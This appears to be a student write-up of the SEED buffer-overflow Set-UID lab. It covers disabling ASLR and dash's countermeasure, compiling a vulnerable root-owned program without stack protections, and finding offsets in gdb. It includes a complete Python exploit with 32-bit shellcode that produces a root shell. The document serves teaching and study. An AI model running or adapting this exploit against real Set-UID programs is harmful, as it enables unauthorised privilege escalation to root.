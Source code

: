 # Buffer-Overflow Attack Lab - Set-UID Version

## Environment Setup

Modern operating systems have implemented several security mechanisms to make the buffer-overflow attack difficult. To simplify our attacks, we need to disable them first.

Ubuntu and several other Linux-based systems use address space randomization to randomize the starting addresses of the heap and stack. This makes guessing memory addresses extremely difficult, which is the foundation of buffer overflow attacks.

We can disable this protection with this command:

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

We also need to run the command 
```bash 
$ sudo ln -sf /bin/zsh /bin/sh
```
Because, in recent versions of Ubuntu, /bin/sh is linked to /bin/dash, which implements a security countermeasure preventing its execution in Set-UID processes. Our exploit relies on executing /bin/sh, so we link it to /bin/zsh, which does not have this restriction, allowing us to bypass the privilege-dropping feature of dash.

# Task 1

After we compiled "call_shellcode.c", two executables were created: one for the 32 bits and other for the 64 bits. When running both of them, both opened a shell in the same directory that we ran the program in the current user "seed".

![a32](/docs/images/a32.png)
<br>
![a64](/docs/images/a64.png)

# Task 2: Understanding the Vulnerable Program

In this task, we analyzed the vulnerable program, stack.c, which contains a buffer overflow vulnerability in the bof() function. The program reads up to 517 bytes of input from a file called badfile and copies this input into a smaller buffer of 100 bytes using strcpy(). Since strcpy() does not perform boundary checks, this leads to a buffer overflow.

Our goal is to exploit this vulnerability to gain root privileges, as the program is a Set-UID root-owned executable. To do this, we need to craft the contents of badfile to overflow the buffer and inject malicious shellcode. When the overflow occurs, the program will execute our shellcode, potentially giving us a root shell.

We compiled the program with the following commands to disable security mechanisms like StackGuard and non-executable stack:

```bash
$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack      # Set the program ownership to root
$ sudo chmod 4755 stack      # Enable the Set-UID bit
```
Before compiling, we needed to change the value of the variable L1 in the Makefile located in `Labsetup/code` to 111 (calculated as 100 + 8 + group number, where our group number is 3). After this change, we can simply compile by typing "make".

![make](/docs/images/make.png)
<br>
![ls](/docs/images/ls.png)

# Task 3: Launching Attack on 32-bit Program

In this step, we aim to determine the distance between the starting position of the buffer and the location of the return address in the stack, which is essential for constructing the payload for the buffer overflow attack.

Using gdb, we can investigate the stack and determine the exact addresses of the buffer and the saved return address. The base pointer (ebp) value can be retrieved with ```p $ebp```. The address of the buffer can be retrieved with ```p &buffer```.

![stack](/docs/images/stack.png)

With this values, we need to start preparing the badfile. We need to complete the exploit.py file with the values recieved from the gdb.

The atack is done on a 32-bit Program, so the shellcode used will be the 32-bit shell-code found in the ```call shellcode.c```file.

![shellcode32](/docs/images/shellcode32.png)

After this, we need to set the start position to the end of the buffer. The buffer size is 517 so we need to set the start of the usable buffer to 517-the size of the shellcode, it should be something like this:

![startpos](/docs/images/startpos.png)

We also need to change the return address, it should be set to point to the location of the shellcode within the buffer. The goal is that, after the buffer overflow, the program "returns" to this location, executing the shellcode.

In this case the buffer starts at 0xffffca18, and the shellcode is placed ```start``` bytes into the buffer, the return address might be something like:

![ret_adr](/docs/images/retadd.png)

The last thing we need to change is the offset, it determines where in the buffer the return address overwrite occurs.

![offset](/docs/images/offset.png)

The difference 0xffffca18 - 0xffffc9a1 gives us the number of bytes between the start of the buffer and the base pointer (ebp).
Since the saved return address is located 4 bytes above ebp in the stack, we add 4 to this difference to get the offset to the return address.

This offset helps us determine where to overwrite the saved return address in our buffer overflow, redirecting the execution to our shellcode.

In the end of this steps, the python script should look like this:

```bash
#!/usr/bin/python3
import sys
shellcode= (
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')
# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))
##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)
# I Need to change I
content[start:start + len(shellcode)] = shellcode
# Decide the return address value
# and put it somewhere in the payload
ret = 0xffffca18 + start  

offset = 0xffffca18 - 0xffffc9a1 + 4 
L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################
# Write the content to a file
with open('badfile', 'wb') as f:
	f.write(content)
```

After running the script and creating the badfile, we simply run stack-L1, which opens a shell. We can verify that we have obtained a root shell by using the `whoami` command, confirming that the current user is root.

![rootshell](/docs/images/rootshell.png)






